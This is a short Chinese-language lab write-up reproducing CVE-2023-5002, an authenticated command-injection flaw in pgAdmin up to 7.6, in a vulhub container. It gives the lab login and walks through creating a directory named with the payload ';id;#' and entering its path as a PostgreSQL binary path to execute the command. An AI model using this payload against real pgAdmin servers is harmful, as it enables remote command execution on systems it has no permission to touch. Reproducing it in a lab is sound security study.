



# CVE-2023-5002

> **Create by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** PgAdmin 后台远程命令执行漏洞


# 0x01 产品介绍

PgAdmin是一个著名的PostgreSQL数据库管理平台。

# 0x02 影响范围

PgAdmin <= 7.6

# 0x03 环境搭建

使用vulhub环境

```javascript
docker compose up -d
```

 

# 0x04 漏洞复现

登录PgAdmin。

```javascript
账号：vulhub@example.com
密码：vulhub
```

选择“Tools -> Storage Manager”打开文件管理器：

 

创建一个新的目录，名字是我们的Payload 

```javascript
";id;#
```

 这个目录的完整路径是`/var/lib/pgadmin/storage/vulhub_example.com/";id;#`，我们后续就需要使用这个路径来利用漏洞。

选择“File -> Preferences”打开设置页面，并来到“Paths -> Binary paths”面板。在任意一个“PostgreSQL Binary Path”文本框中填入

```javascript
/var/lib/pgadmin/storage/vulhub_example.com/";id;#
```

并点击右侧的“验证”按钮

 

发现执行成功！

 